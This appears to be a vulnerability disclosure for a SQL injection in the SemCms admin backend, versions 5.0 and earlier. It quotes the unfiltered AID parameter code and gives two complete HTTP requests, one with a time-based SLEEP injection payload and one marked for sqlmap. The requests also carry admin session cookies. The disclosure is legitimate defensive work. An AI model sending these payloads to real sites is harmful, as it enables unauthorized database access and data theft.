


## Semcms backend SQL injection vulnerability


### Semcms  introduce

SemCms is an open-source foreign trade enterprise website management system, primarily used for foreign trade companies. It is compatible with major browsers such as IE, Firefox, Google Chrome, and 360.


### Vulnerability description

SQL Injection is a web security vulnerability that allows attackers to interfere with the queries an application makes to its database. By inserting malicious SQL statements, attackers can potentially access sensitive data, modify or delete records, and in some cases, take control of the entire database.


```
Semcms Project address

https://github.com/J1095/one
```


Locate the source code to the backend directory's `SEMCMS_Fuction.php`. The input parameter values are not filtered and are directly used in database queries.  The vulnerable parameter is AID.

```
if(isset($_POST["AID"])){$area_arr=$_POST["AID"];$area_arr = implode(",",$area_arr);}else{$area_arr="";}
```




The first vulnerability point data packet.

```
POST /G45HTO_Admin/SEMCMS_Images.php?Class=Deleted&CF=Images&page= HTTP/1.1
Host: xxxxxxxxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
Origin: http://testsemcms
Connection: close
Referer: http://xxxxxxxx/G45HTO_Admin/SEMCMS_Images.php
Cookie: __tins__4329483=%7B%22sid%22%3A%201733579893865%2C%20%22vd%22%3A%206%2C%20%22expires%22%3A%201733581851212%7D; __51cke__=; __51laig__=6; scusername=%E6%80%BB%E8%B4%A6%E5%8F%B7; scuseradmin=Admin; scuserpass=c4ca4238a0b923820dcc509a6f75849b
Upgrade-Insecure-Requests: 1
Priority: u=4

AID%5B%5D=243*
```

The two vulnerability point data packet.

```
POST /G45HTO_Admin/SEMCMS_Inquiry.php?Class=Deleted&CF=Inquriy&page= HTTP/1.1
Host: xxxxxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 23
Origin: http://testsemcms
Connection: close
Referer: http://xxxxxxxx/G45HTO_Admin/SEMCMS_Inquiry.php
Cookie: __tins__4329483=%7B%22sid%22%3A%201733579893865%2C%20%22vd%22%3A%206%2C%20%22expires%22%3A%201733581851212%7D; __51cke__=; __51laig__=6; scusername=%E6%80%BB%E8%B4%A6%E5%8F%B7; scuseradmin=Admin; scuserpass=c4ca4238a0b923820dcc509a6f75849b
Upgrade-Insecure-Requests: 1
Priority: u=4

languageID=&AID%5B%5D=1 AND (SELECT 997 FROM (SELECT(SLEEP(5)))Iokc)
```

SQLmap verification as follows:




#### The affected version

```
Semcms <= 5.0
```

Malicious attackers can exploit the vulnerability to illegally obtain data and even gain unauthorized access to the website.